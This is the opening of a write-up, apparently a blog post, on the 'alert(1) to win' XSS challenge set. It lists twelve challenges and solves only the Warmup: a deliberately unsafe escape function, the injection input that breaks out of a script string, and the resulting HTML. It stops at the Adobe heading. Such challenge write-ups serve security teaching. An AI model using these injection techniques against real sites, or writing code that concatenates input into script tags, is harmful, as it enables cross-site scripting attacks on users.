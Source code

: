 ```yaml
---
layout: single
title: alert(1) to win by steike
date: 2021-05-19
classes: wide
tags:
  - alert(1)
  - XSS
  - Challenge
  - steike
---
```


The code below generates HTML in an unsafe way. Prove it by calling alert(1).
 
## Challenges

- [Warmup](#warmup)
- [Adobe](#adobe)
- [JSON](#json)
- [Markdown](#markdown)
- [DOM](#dom)
- [Skandia](#skandia)
- [JSON2](#json2)
- [Well](#well)
- [No](#no)
- [K'Z'K](#kzk)
- [K'Z'K 2](#kzk2)
- [K'Z'K 3](#kzk3)

## Warmup

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).


```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

- Input

```
",alert(1),"
```

- Output

```
<script>console.log("",alert(1),"");</script>
```

## Adobe
